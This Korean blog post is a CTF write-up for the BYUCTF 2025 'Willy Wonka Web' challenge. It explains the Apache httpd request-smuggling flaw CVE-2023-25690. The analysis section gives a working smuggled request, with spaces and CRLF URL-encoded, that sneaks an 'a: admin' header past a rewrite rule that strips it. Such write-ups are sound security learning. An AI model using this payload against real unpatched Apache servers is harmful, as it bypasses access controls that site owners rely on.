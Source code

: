 ```yaml
---
layout: post
title: "[byuctf2025] CVE-2023-25690"
summary: "Apache http 웹서버 Smuggling 요청 취약점"
author: eveheeero
date: '2025-05-18 23:27:00 +0900'
category: ['etc', 'learning']
tags: cve
thumbnail: /assets/img/posts/2025-05-18-4.png
keywords: ctf, cve, vulnerability
usemathjax: false
permalink: /blog/CVE-2023-25690/
---
```



## 배경

BYUCTF 2025 웹해킹 Willy Wonka Web 문제 풀이입니다.

## 요약

![요약 ppt 이미지](/assets/img/posts/2025-05-18-4.png){: style="max-width: 100%; height: auto;"}

- `apache http`가 URL 인코딩 된 띄어쓰기를 인식하지 못해, `GET`이나 `POST`등의 메소드가 오고 난 뒤 `다음 띄어쓰기가 올 때까지의 모든 문자`를 경로로 인식하던 취약점

## 문제 상황

![Backend](/assets/img/posts/2025-05-18-3.png){: style="max-width: 100%; height: auto;"}

![apache http 설정](/assets/img/posts/2025-05-18-2.png){: style="max-width: 100%; height: auto;"}

요청 헤더에 `a`값이 오면 플래그를 출력하는 문제지만, `apache http 서버`의 `RewriteEngine`, `RewriteRule`를 이용해 `a`헤더를 `unset`하고 있었습니다.

`점수 - 241점, 푼 팀 - 191/894팀`

## 분석 과정

관련 CVE 내용을 확인해보니 `apache httpd 2.4.55`버전까지 `HTTP`메소드 이후 캐리지 리턴이 올 때까지 전부 하나의 경로로 인식한다는 내용이 있었습니다.

원하는 요청은 다음과 같았습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


```

해당 요청 `GET` 이후 부분을 전부 `UrlEncoding`하여 진행했으나 내부 오류가 계속 났었습니다.

' ' 및 '\r\n'만을 `UrlEncoding`하니 정상적으로 실행되었습니다.

두개 요청을 합쳐야 해서 다음처럼 요청을 보냈습니다.

```text
GET /name/anything HTTP/1.1
Host: 127.0.0.1
a: admin


GET /name/anything HTTP/1.1


```

이를 두번째 쿼리 `HTTP/1.1` 부분 앞까지 `%20`, `%0d`, `%0a`로 치환하여 다음처럼 쿼리가 나왔고

```text
GET /name/anything%20HTTP/1.1%0d%0aa:%20admin%0d%0a%0d%0aGET%20/anything HTTP/1.1


```

위 코드는 `apache http 웹서버`에서 헤더가 하나도 없는 `/name...anything` 경로를 가진 `GET`요청으로 처리가 될 것이며, 백엔드에서는 `a: admin`헤더를 가진 요청, 헤더 없는 요청, 총 두개로 처리가 됩니다.

![공격 성공 이미지](/assets/img/posts/2025-05-18-5.png){: style="max-width: 100%; height: auto;"}

다음처럼 코드 실행해 공격 성공했습니다.

## 작성자의 글

- `Smuggling` 공격 실습을 해보아 재밌었습니다.
- 소켓 관련 내용을 다루느라 힘들었습니다. 관련 툴을 미리 제작해둬야겠습니다.

## 참조

- [dhmosfunk/CVE-2023-25690-POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
